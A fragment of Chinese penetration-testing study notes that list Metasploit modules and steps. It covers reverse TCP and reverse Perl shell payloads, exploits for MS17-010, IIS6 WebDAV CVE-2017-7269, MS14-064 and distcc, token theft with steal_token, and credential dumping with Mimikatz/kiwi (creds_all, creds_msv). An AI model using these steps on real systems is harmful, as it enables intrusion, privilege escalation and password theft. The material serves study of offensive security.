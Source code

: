 windows/x64/shell/reverse_tcp

而这个payload在虚拟机中进行复现时就会造成蓝屏

必须是同一个网段才可以弹meterpreter

**MS17-010 445 端口 SMB系统协议漏洞，权够大**

**IIS6.0 Webdav 漏洞开启了WebDAV扩展服务就可能有漏洞
exploit/windows/iis/cve-2017-7269 普通用户权
可以利用提权文件启动纵向提权**

**MS14-064网页诱骗 exploit/windows/browser/ms14_064_ole_code_execution
用渗透机打开浏览器访问形成三角杀**

**Windows之msf后渗透提权**

ps看进程

steal_token pid （pid=有admin的最前的序列号）

盗窃给定进行的可用令牌并进行令牌假冒。先用ps查看有哪些pid是属于administrator的，再盗取这个pid即可。

getuid看权限

**Mimikatz神器**

现在在msf里面改成了kiwi ，使用前必须是SYSTEM用户,load kiwi

获取明文密码 creds_all

获取哈希值 creds_msv

windows后渗透之哈希值爆破

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image74.png){width="5.760416666666667in"
height="0.630161854768154in"}

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image75.png){width="5.760416666666667in"
height="2.09875656167979in"}

**distcc后门漏洞**

1099端口

影响范围：该漏洞是XCode 1.5版本及其他版本的distcc 2.x版本配置对于服务器端口的访问不限制

search distcc_exec

set payload cmd/unix/reverse_perl

**ssh私钥泄漏破解登录**

**（私钥也可以在服务器创建私钥和公钥，然后把私钥发个客服机，当然要cp
id_rsa.pub authorized_keys）**

**获取到ssh私钥后先加权限chmod 600 id_rsa**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image76.png){width="2.9027777777777777in"
height="0.5202110673665792in"}
